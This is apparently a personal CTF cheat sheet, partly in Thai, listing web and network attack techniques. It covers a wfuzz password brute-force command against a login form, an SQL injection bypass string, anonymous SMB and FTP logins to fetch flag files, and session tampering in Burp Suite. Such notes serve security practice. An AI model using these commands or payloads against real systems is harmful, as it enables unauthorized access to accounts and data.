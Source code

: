 #web 
# Bruteforce
## Word List
rockyou.txt
## Wfuzz
### Command
```bash
sudo wfuzz -z file,/home/drasogun/Desktop/password/password.txt -d "username=admin%40dropctf.live&password=FUZZ&login_user=" --hh 0  http://172.18.0.9/login_db.php
```
### Tool
burtsuite เพื่อเอา data ที่ต้องใช้ในคำสั่ง
# Bypass
## SQL Injection
’ OR '1'='1
## Bypass Authentication
Sign in User ที่มีอยู่แล้วเพื่อทับข้อมูลเดิม แล้ว Login User นั้น
# Anonymous Login
## Samba
### Command
```bash
smbclient -L 172.18.0.64
smbclient \\\\172.18.0.64\\public
get flag.txt
```
## FTP
### Command
```bash
ftp 172.18.0.64  (user&password = anonymous)
passive on
get flag.txt
```
# Session Management
## Step
1. Login
2. Burp suit ปลอมแปลง session ตอน login (user=daftpunk → user=admin)
[[Burp Suite]]